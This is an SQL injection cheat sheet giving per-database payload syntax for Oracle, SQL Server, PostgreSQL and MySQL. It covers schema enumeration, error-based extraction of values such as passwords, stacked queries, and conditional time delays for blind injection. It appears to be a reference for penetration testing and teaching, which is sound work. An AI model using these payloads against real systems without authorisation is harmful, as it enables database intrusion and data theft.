 # SQL injection cheat sheet
# String concatenation

* **Oracle** 
    * `'foo'||'bar'`
* **Microsoft** 
    * `'foo'+'bar'`
* **PostgreSQL** 	
    * `'foo'||'bar'`
* **MySQL** 
    * `'foo' 'bar'` [Note the space between the two strings]
    * `CONCAT('foo','bar')`

# Substring

* **Oracle** 
    * `SUBSTR('foobar', 4, 2)`
* **Microsoft** 
    * `SUBSTRING('foobar', 4, 2)`
* **PostgreSQL** 	
    * `SUBSTRING('foobar', 4, 2)`
* **MySQL** 
    * `SUBSTRING('foobar', 4, 2)`

# Comments

* **Oracle** 
    * `--comment`
* **Microsoft** 
    * `--comment`
    * `/*comment*/`
* **PostgreSQL** 	
    * `--comment`
    * `/*comment*/`
* **MySQL** 
    * `#comment`
    * `-- comment` [Note the space after the double dash]
    * `/*comment*/`

# Database version

* **Oracle** 
    * `SELECT banner FROM v$version`
    * `SELECT version FROM v$instance`
* **Microsoft** 
    * `SELECT @@version`
* **PostgreSQL** 	
    * `SELECT version()`
* **MySQL** 
    * `SELECT @@version`

# Database contents

* **Oracle** 
    * `SELECT * FROM all_tables`
    * `SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`
* **Microsoft** 
    * `SELECT * FROM information_schema.tables`
    * `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
* **PostgreSQL** 	
    * `SELECT * FROM information_schema.tables`
    * `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`
* **MySQL** 
    * `SELECT * FROM information_schema.tables`
    * `SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

# Conditional errors

* **Oracle** 
    * `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
* **Microsoft** 
    * `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
* **PostgreSQL** 	
    * `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`
* **MySQL** 
    * `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`

# Extracting data via visible error messages

* **Microsoft** 
    * `SELECT 'foo' WHERE 1 = (SELECT 'secret')`
    > Conversion failed when converting the varchar value 'secret' to data type int.
* **PostgreSQL** 	
    * `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)`
    > invalid input syntax for integer: "secret"
* **MySQL** 
    * `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))`
    > XPATH syntax error: '\secret'

# Batched (or stacked) queries

* **Oracle** 
    * `Does not support batched queries.`
* **Microsoft** 
    * `QUERY-1-HERE; QUERY-2-HERE`
* **PostgreSQL** 	
    * `QUERY-1-HERE; QUERY-2-HERE`
* **MySQL** 
    * `QUERY-1-HERE; QUERY-2-HERE`

# Time delays

* **Oracle** 
    * `dbms_pipe.receive_message(('a'),10)`
* **Microsoft** 
    * `WAITFOR DELAY '0:0:10'`
* **PostgreSQL** 	
    * `SELECT pg_sleep(10)`
* **MySQL** 
    * `SELECT SLEEP(10)`

# Conditional time delays

* **Oracle** 
    * `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
* **Microsoft** 
    * `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
* **PostgreSQL** 	
    * `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
* **MySQL** 
    * `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`
